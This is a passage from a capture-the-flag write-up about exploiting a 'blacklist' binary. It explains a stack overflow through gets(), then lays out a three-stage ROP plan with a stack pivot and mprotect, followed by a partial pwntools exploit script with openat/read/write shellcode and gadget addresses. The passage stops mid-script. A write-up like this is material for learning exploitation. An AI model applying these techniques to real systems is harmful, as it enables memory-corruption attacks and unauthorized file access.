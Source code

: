 Classy, huh? I havent seen `gets()` used in a while so it was pretty cool to see it again. So to recap:

We have:
- No PIE, and statically linked; many gadgets available to us right out the door.
- Easy bof vulnerability on the stack.
- ... But, we cant get a shell, so we have to use some combination of ORW, but using `openat` instead of open to net us the flag.

# Exploitation

My exploit is fairly simple. It has 3 stages:

1. Overflow buffer, rop together a call to `read` into the bss to load a stage 2. I do this because I dont want to deal with `gets()` and its badchars.
2. Pivot the stack into the bss where a ropchain is waiting.
3. The ropchain rwx's the bss, then jumps to shellcode I had loaded after.

Here's what it looks like:

```py
from pwn import *
import string

context.arch = 'amd64'

script = '''
break *vuln+29
continue
'''

# Print out contents (only up to 0x50 bytes of it though for some reason :/) of a file.
shellcode = asm('''

    mov rax, 0x101
    mov rsi, rdi
    xor rdi, rdi
    xor rdx, rdx
    xor r10, r10
    syscall
    
    mov rdi, rax
    mov rax, 0
    mov rsi, rsp
    mov rdx, 0x50
    syscall
    
    mov rax, 1
    mov rdi, 0
    syscall

        ''')

def main():
    
    # For our socket shellcode. 
    dataseg = 0x00000000004dd000
    # Just inside read()
    syscall = 0x457a00
    # For stack pivot, because fuck gets()
    pop_rbp = 0x41ed8f
    leave = 0x0000000000401e78

    rop = ROP("./blacklist")
    elf = ELF("./blacklist")
```